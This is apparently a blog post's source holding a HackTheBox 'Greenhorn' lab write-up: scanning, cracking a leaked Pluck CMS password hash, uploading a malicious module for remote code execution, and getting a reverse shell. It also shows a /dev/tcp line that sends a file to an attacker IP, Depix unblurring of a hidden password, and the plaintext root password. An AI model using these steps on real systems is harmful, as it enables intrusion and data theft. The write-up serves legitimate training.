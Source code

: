```yaml
---
layout: post
title: "Greenhorn"
date: 2024-12-28
author: cotes
categories: [Writeup, HackTheBox]
tags: [HTB, Writeup, Security]
pin: true
math: true
mermaid: true
image:
  path: /assets/img/commons/hackthebox.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: Hackthebox Image
---
```



starting with nmap 
`
```
sudo  nmap -sC -sV -p- -oN greenHorn -T4 10.10.11.25
```
 ![[Pasted image 20240722002947.png]]

so we got 2 websites , one hosted on the port 80 and the other on the port 3000
![[Pasted image 20240722003219.png]]


`
on the port 3000 , we got gitea , with a public repos contains the source code of ==pluck cms==
on the other port we found the ==pluck cms==

![[Pasted image 20240722003527.png]]

from the fisrt look , I assume that this websites is the same one as the one in the ==gitea repo ==

so let's take look at the source code , quick review of the code 

this file got my attention http://greenhorn.htb:3000/GreenAdmin/GreenHorn/src/branch/main/login.php 

```
else {

require_once 'data/settings/pass.php';

  

//Check if we're already logged in. First, get the token.

require_once 'data/settings/token.php';
```

let's check the ==data/settings/pass.php== 
```
<?php

$ww = 'd5443aef1b64544f3685bf112f6c405218c573c7279a831b1fe9612e3a4d770486743c5580556c0d838b51749de15530f87fb793afdcc689b6b39024d7790163';

?>
```
this files returns a hash to the  ==login.php== file 

then the cms generate a hash based on the user input and stored it in  ==$pass==
```
  

//If password has been sent, and the bogus input is empty, MD5-encrypt password.

if (isset($_POST['submit']) && empty($_POST['bogus'])) {

$pass = hash('sha512', $cont1);
```
after that he compares the ==\$ww (hash returned from pass.php)== with the ==\$pass==
to confirm that the password is correct
```
  

//If password is correct, save session-cookie.

if (($pass == $ww) && (!isset($login_error))) {

$_SESSION[$token] = 'pluck_loggedin';
```

if we crack the hash on the pass.==php== we will get access to the ==cms==  , since the  hash is ==SHA512== , I will try to crack it using 
https://crackstation.net/

![[Pasted image 20240722011750.png]]
![[Pasted image 20240722012056.png]]

the CMS is on version ==4.7.18== , I quick google search lead me to https://www.exploit-db.com/exploits/51592

after reading the script .
the scenario is the following :
```
user with admin privilege can upload a module (module is just zip with php files) using http://target/pluck/admin.php?action=installmodule
, then we can run those files , since we control those files we can use them to get rce .
```

first I will create a zip with two files ==poc.php,rce.php== 
![[Pasted image 20240722012944.png]]
```
zip rce.zip poc.php rce.php
```
![[Pasted image 20240722013106.png]]

![[Pasted image 20240722013302.png]]

http://greenhorn.htb/data/modules/rce/poc.php
![[Pasted image 20240722013344.png]]

http://greenhorn.htb/data/modules/rce/rce.php?cmd=id
![[Pasted image 20240722013526.png]]

let's get rev shell now
![[Pasted image 20240722014725.png]]

![[Pasted image 20240722014758.png]]

we have 3 users on this machines
```
cat  /etc/passwd | grep sh$
```
![[Pasted image 20240722014835.png]]

I tried to reuse the password of the website , against users and I am ==junior== now!!
```
su junior
```

there's a pdf on ==junior's home== 
![[Pasted image 20240722015126.png]]

let's transfer it to our machine  to check it 
```
on the target :
		cat 'Using OpenVAS.pdf' > /dev/tcp/10.10.14.234/1337
on the attacker machine :
		nc -nvlp 1337 > openvas.pdf
```
![[Pasted image 20240722015319.png]]

there's a hidden password in this pdf , we need to unblur that shit
![[Pasted image 20240722015603.png]]

at this point I was stuck , so I ask for hints from the HTB discord server 
we need tools like https://github.com/spipm/Depix to un-blur the password

but first we need to convert the pdf to png (wasn't lucky with taking screenshots),
using websites like https://pdfcandy.com will be enough 

after generating the image I use  ==Depix tool== to generate un-blurred  image
```
python3 depix.py -p  ../OpenVas.png  -s images/searchimages/debruinseq_notepad_Windows10_closeAndSpaced.png -o root.png
```

and I got this 
![[root.png]]

```
sidefromsidetheothersidesidefromsidetheotherside
```
![[Pasted image 20240722020616.png]]
